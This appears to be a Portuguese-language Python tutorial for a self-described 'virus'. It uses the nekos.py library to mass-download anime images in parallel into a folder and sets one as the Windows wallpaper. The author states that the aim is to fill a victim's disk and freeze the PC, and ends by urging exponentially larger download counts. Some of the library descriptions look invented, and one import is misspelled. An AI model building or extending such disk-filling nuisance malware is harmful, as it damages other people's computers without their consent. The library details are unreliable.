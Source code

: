 Virus h paso a paso para python 
Capitulo 1 do virus entendendo como funciona a biblioteca(mas ou menos)

Meu virus de hentai passo a passo para baixa a biblioteca akaneko:
Primeiramente eu to fazendo esse tutorial inspírado num video do youtube irei coloca o link do canal do cara no final do documento, é um pouco semelhante com o dele o meu codigo

De alguma forma se Voce for trabalhar no pyhton nao da para baixa na maneira normal usando o comando:
npm akaneko (somente para quem for progamar em js)
A biblioteca akaneko tem varias outras imagens que voce que progama em java script pode utilizar, mas como estou acostumado em pyhton irei fazer em python
No python voce tem que fazer o seguinte comando:
pip install nekos.py  (isso ira baixa a biblioteca nekos para seu pc, no caso Voce baixara somente isso, fazer o que  se para quem programa em python só vai ter isso mas é suficiente para trava um pc rsrsrs)

Primeiramente vamos adicionar as blibiotecas que vamos usar:
import nekos
import requests
from concurrent.futures import ThreadPoolExecutor
import os
import crypes





Primeira parte do codigo:
import requests
import os

def checar_net():
    try:
        requests.get('https://www.google.com/')
        return True
    except requests.ConnectionError:
        return False
if checar_net():
    print("tem net")
else:
    print("não tem net")
Eu me inspirei um cara que vi no youtube que ele sempre checar primeiro se o pc esta conectado na internet

Segundo passo baixa uma imagem aleatoria da biblioteca:
import nekos
import requests

# URL da imagem aleatória de anime
url = nekos.img('neko')

# Baixa a imagem
response = requests.get(url)
with open('imagem1.jpg', 'wb') as f:
    f.write(response.content)

print("Imagem baixada com sucesso!")


Acaso voce queira ve os modulos disponiveis na biblioteca vou repassar o sequinte comando:
import nekos

# Lista todos os atributos do módulo nekos
print(dir(nekos))

você tem os seguintes atributos disponíveis na biblioteca nekos.py:

cat: Retorna uma imagem aleatória de um gato.
dict: Retorna uma imagem aleatória de um dicionário.
eightball: Retorna uma resposta aleatória de uma bola 8.
errors: Lista de exceções personalizadas.
fact: Retorna um fato aleatório.
http: Uma função para lidar com solicitações HTTP.
img: Retorna uma imagem aleatória.
name: Retorna um nome aleatório.
noresponse: Uma exceção para quando não há resposta.
owoify: Owoify seu texto.
spoiler: Owoify seu texto como spoiler.
textcat: Retorna um texto aleatório de um gato.
why: Retorna uma razão aleatória.
Com base nisso, parece que você pode usar img para obter imagens aleatórias. Vamos usá-lo para baixar e exibir uma imagem:
import nekos
import requests
import matplotlib.pyplot as plt

def mostrar_imagem(url):
    # Faz o download da imagem
    response = requests.get(url)
    # Converte a imagem em bytes para exibição
    imagem = plt.imread(response.content, format='jpg')
    # Exibe a imagem
    plt.imshow(imagem)
    plt.axis('off')  # Remove os eixos
    plt.show()

# URL da imagem aleatória
url = nekos.img('neko')

# Mostra a imagem
mostrar_imagem(url)

Este codigo baixara e exibira uma imagem aleatoria de um neko.  Mas é claro que voce não vai querer somente uma imagem ne? :)



Segundo capitulo do virus, baixando mas de uma imagem :)

Esse virus tem o objetivo de lotar o hd da pessoa de imagem então logo abaixo tem o codigo:
import nekos
import requests
from concurrent.futures import ThreadPoolExecutor

def download_image(url, path):
    response = requests.get(url)
    if response.status_code == 200:
        with open(path, 'wb') as f:
            f.write(response.content)
        print(f"Imagem salva em {path}")
    else:
        print(f"Falha ao baixar a imagem de {url}. Status code: {response.status_code}")

def main():
    urls = [nekos.img('neko') for _ in range(10)]  # Gere 10 URLs de imagens
    paths = [f'imagem_{i}.jpg' for i in range(10)]  # Crie 10 nomes de arquivo

    with ThreadPoolExecutor(max_workers=10) as executor:
        for url, path in zip(urls, paths):
            executor.submit(download_image, url, path)

if __name__ == "__main__":
    main()
Essa parte é para que voce abaixe somente uma quantidade de imagem limitada, e sim nessa parte eu retirei aquilo de checar a internet mas irei coloca novamente, isso é apenas um exemplo de como voce conseque baixa mas de uma imagem


Logo abaixo eu mostrarei o codigo completo para baixa 100 imagens:
import nekos
import requests
from concurrent.futures import ThreadPoolExecutor
import os
import ctypes

#checar inicialmente se tem internet
def checar_net():
    try:
        requests.get('https://www.google.com/')
        return True
    except requests.ConnectionError:
        return False
if checar_net():
    print("tem net")
else:
    print("não tem net")

#função de baixa imagens da biblioteca
def download_image(url, path):
    response = requests.get(url)
    if response.status_code == 200:
        with open(path, 'wb') as f:
            f.write(response.content)
        print(f"Imagem salva em {path}")
    else:
        print(f"Falha ao baixar a imagem de {url}. Status code: {response.status_code}")
        
  #definir a imagem depois do download como papel de parede       
def set_walpaper (image_path):
    if os.path.exists(image_path):
        ctypes.windll.user32.SystemParametersInfoW(20, 0, image_path, 3)
        print(f"papel de parede alterado para {image_path}")
    else:
        print(f"imagem não encontrada: {image_path}")
        
        
        

def main():
    num_images = 100
    urls = [nekos.img('neko') for _ in range(num_images)]  
    diretory = f'D:\\teste_virus\\'   

    with ThreadPoolExecutor(max_workers=10) as executor:
        for i, url in enumerate(urls):
            filename = f'imagem_{i}.jpg'
            path = os.path.join(diretory, filename)
            
            executor.submit(download_image, url, path)
            
    set_walpaper(os.path.join(diretory, 'imagem_1.jpg'))
    
    
    
    
    
if __name__ == "__main__":
    main()

Agora para travar um pc voce tem que aumenta o numero de imagem para baixa, recomendo que modifique e coloque ** exponencial para aumenta de forma significativa 
